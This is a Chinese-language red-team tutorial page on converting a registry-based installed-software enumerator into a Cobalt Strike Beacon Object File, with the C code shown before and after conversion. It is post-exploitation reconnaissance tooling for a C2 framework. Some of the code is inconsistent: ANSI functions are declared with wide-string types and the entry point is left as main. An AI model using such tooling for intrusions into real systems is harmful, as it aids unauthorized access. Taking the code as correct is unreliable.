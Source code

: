 # 攻击demo的bof改造

## 简介

银河系第一C2 cobaltstrike4.1更新了一个神奇的功能，原文直接贴。

> Cobalt Strike has weaponization options for PowerShell, .NET, and Reflective DLLs. These three options rely on Beacon’s [fork&run mechanism](https://youtu.be/Pb6yvcB2aYw?t=620). This is Cobalt Strike’s pattern to spawn a process, inject a capability into it, and receive output over a named pipe. This is OK in some engagements. It’s too OPSEC-expensive in others.
>
> We’ve long had requests for some option to run custom capability directly within the Beacon payload, without fork&run. [Beacon Object Files](https://www.cobaltstrike.com/help-beacon-object-files) are our answer to this request. Beacon Object Files are a way to build small post-ex capabilities that execute in Beacon, parse arguments, call a few Win32 APIs, report output, and exit.
>
> A Beacon Object File is an object file, produced by a C compiler, that is linked and loaded by Cobalt Strike. Beacon Object Files can call Win32 APIs and have access to [some internal Beacon APIs](https://www.cobaltstrike.com/downloads/beacon.h) \(e.g., for output, token impersonation, etc.\).
>
> Here’s an example Beacon Object File \(it’s Beacon’s ‘net domain’ command\)

其他特性我倒是没觉得有什么基本都是些常规技术，主要是小，在dns等传输速率慢的信道内会比较有优势。

## 流程

其实也挺简单的

1. 引入beacon.h头文件
2. 把所有字符串和函数改成ascii的
3. 把所有函数改成beacon.h定义的编写约定
4. 生成bof文件

## 操作&代码

找到一份需要武器化的代码，这里使用[get-computer-installed-software](../persistence/get-computer-installed-software.md)的demo。

```text

#include <stdio.h>
#include <Windows.h>
#include <tchar.h>


BOOL EnumInstalledSoft(TCHAR* subKey, TCHAR* subKeyName) {

	HKEY hKey = NULL;
	HKEY hSubKey = NULL;
	DWORD dwIndexs = 0;
	TCHAR keyName[MAX_PATH] = { 0 };
	DWORD dwLength = 256;
	TCHAR subKeyValue[MAX_PATH] = { 0 };


	if (RegOpenKeyEx(HKEY_LOCAL_MACHINE, subKey, 0, KEY_READ, &hKey) == ERROR_SUCCESS)
	{
		while (RegEnumKeyEx(hKey, dwIndexs, keyName, &dwLength, NULL, NULL, NULL, NULL) == ERROR_SUCCESS)
		{
			RegOpenKey(hKey, keyName, &hSubKey);

			RegQueryValueEx(hSubKey,
				subKeyName,
				NULL,
				NULL,
				(LPBYTE)subKeyValue,
				&dwLength);

			printf("%s : %s  \n", keyName, subKeyValue);
			RegCloseKey(hSubKey);
			hSubKey = 0;
			++dwIndexs;
			dwLength = 256;
		}
	}
	else
	{
		return FALSE;
	}
	if (hKey != NULL)
	{
		RegCloseKey(hKey);
		return TRUE;
	}
}

int main()
{


	EnumInstalledSoft((TCHAR*)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall",(TCHAR*)"DisplayName");
	EnumInstalledSoft((TCHAR*)"Software\\Classes\\Installer\\Products", (TCHAR*)"ProductName");
	system("pause");


	return 0;
}
```

然后我们导入beacon.h,和替换bof约定的写法，函数原型我们可以使用一个bof\_helper的项目，这个项目自动化帮我们生成好bof约定的函数写法，如把GetProcAddress换成KERNEL32$GetProcAddress的写法，这里直接使用工具，同时也需要把输出函数换成beacon导出的函数。

![](../.gitbook/assets/image%20%28179%29.png)

最后整个代码看上去是这样的。

```text

#include <stdio.h>
#include <windows.h>
#include "beacon.h"

DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegOpenKeyExA(HKEY, LPCWSTR, DWORD, REGSAM, PHKEY);

DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegOpenKeyA(HKEY, LPCWSTR, PHKEY);
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegCloseKey(HKEY);
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegEnumKeyExA(
	HKEY,
	DWORD,
	LPWSTR,
	LPDWORD,
	LPDWORD,
	LPWSTR,
	LPDWORD,
	PFILETIME
);
DECLSPEC_IMPORT WINADVAPI LONG WINAPI ADVAPI32$RegQueryValueExA(
	HKEY,
	LPCWSTR,
	LPDWORD,
	LPDWORD,
	LPBYTE,
	LPDWORD
);

BOOL EnumInstalledSoft(CHAR* subKey, CHAR* subKeyName) {

	HKEY hKey = NULL;
	HKEY hSubKey = NULL;
	DWORD dwIndexs = 0;
	CHAR keyName[MAX_PATH] = { 0 };
	DWORD dwLength = 256;
	CHAR subKeyValue[MAX_PATH] = { 0 };


	if (ADVAPI32$RegOpenKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, KEY_READ, &hKey) == ERROR_SUCCESS)
	{
		while (ADVAPI32$RegEnumKeyExA(hKey, dwIndexs, keyName, &dwLength, NULL, NULL, NULL, NULL) == ERROR_SUCCESS)
		{
			ADVAPI32$RegOpenKeyA(hKey, keyName, &hSubKey);

			ADVAPI32$RegQueryValueExA(hSubKey,
				subKeyName,
				NULL,
				NULL,
				(LPBYTE)subKeyValue,
				&dwLength);

			BeaconPrintf(CALLBACK_OUTPUT, "%s : %s  \n", keyName, subKeyValue);
			ADVAPI32$RegCloseKey(hSubKey);
			hSubKey = 0;
			++dwIndexs;
			dwLength = 256;
		}
	}
	else
	{
		return FALSE;
	}
	if (hKey != NULL)
	{
		ADVAPI32$RegCloseKey(hKey);
		return TRUE;
	}
}

int main()
{


	EnumInstalledSoft((CHAR*)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall", (CHAR*)"DisplayName");
	EnumInstalledSoft((CHAR*)"Software\\Classes\\Installer\\Products", (CHAR*)"ProductName");
	return 0;
}
```

